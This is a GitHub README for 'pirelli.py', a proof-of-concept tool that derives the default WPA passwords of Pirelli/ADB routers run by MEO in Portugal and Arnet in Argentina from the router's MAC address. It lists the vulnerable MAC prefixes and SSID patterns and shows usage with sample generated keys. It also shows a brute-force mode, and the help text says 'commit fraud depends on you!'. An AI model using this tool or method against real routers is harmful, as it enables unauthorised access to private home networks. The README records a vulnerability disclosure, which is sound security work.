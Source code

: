 Vulnerabilidades nos Routers ADB Italia da MEO. 
==

+ Este algoritmo permite gerar as chaves de encriptação WPA pré-definidas nos Routers da MEO com o SSID "ADSLPT-ABXXXXX"

Referencias
----

* O Autor deste script é [Eduardo Novella](https://twitter.com/enovella_) que encontrou a vulnerabilidade nos routers ADB utilizado na Argentina pela operadora Arnet


Contact
----

Coder  : Eduardo Novella    Twitter : 
Website: (http://ednolo.alumnos.upv.es/)


Licence
----
GPLv3
http://gplv3.fsf.org/

More info
----

+ http://ednolo.alumnos.upv.es/?p=1883

Usage pirelli
----

	$ python pirelli.py -v
	pirelli.py 1.4 [2015-05-06] ----> http://www.ednolo.alumnos.upv.es

	$ python pirelli.py 
	usage: pirelli.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> PoC WPA keygen for WiFi Networks deployed by Arnet in Argentina and MEO in
	Portugal. So far only WiFi networks with essids like WiFi-Arnet-XXXX or
	ADSLPT-ABXXXXX and manufactured by Pirelli are likely vulnerable. See
	http://ednolo.alumnos.upv.es/ for more details. Twitter: @enovella_ and email:
	ednolo[at]inf.upv.es. This software is used just as proof-of-concept, commit
	fraud depends on you!

	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --version         show program's version number and exit
	  -l, --list            List all vulnerable targets
	  -a, --allkeys         Bruteforce mode

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Target mac address

	(+) Help: python pirelli.py -b 74:88:8B:AD:C0:DE

	$ python pirelli.py -l
	[+] Possible vulnerable targets so far:
		 bssid: 00:08:27:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX

	$ python pirelli.py -b 74:88:8B:AD:C0:DE
	[+] MAC     : 74:88:8B:AD:C0:DE
	[+] WPA key : 057mjyggor	SSID: WiFi-Arnet-XXXX (Argentina)
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX  (Portugal)

	$ python pirelli.py -b 74:88:8B:AD:C0:DE -a
	[+] MAC     : 74:88:8B:AD:C0:DE

	[+] WPA keys for SSID: WiFi-Arnet-XXXX (Argentina)
	3c1nrhqy5z
	tugh1hcfog
	057mjyggor
	hj0wl2c2r7
	9yw6um3tc5
	ituqajo8iq
	wfti5odq8c

	[+] WPA keys for SSID: ADSLPT-ABXXXXX  (Portugal)
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq 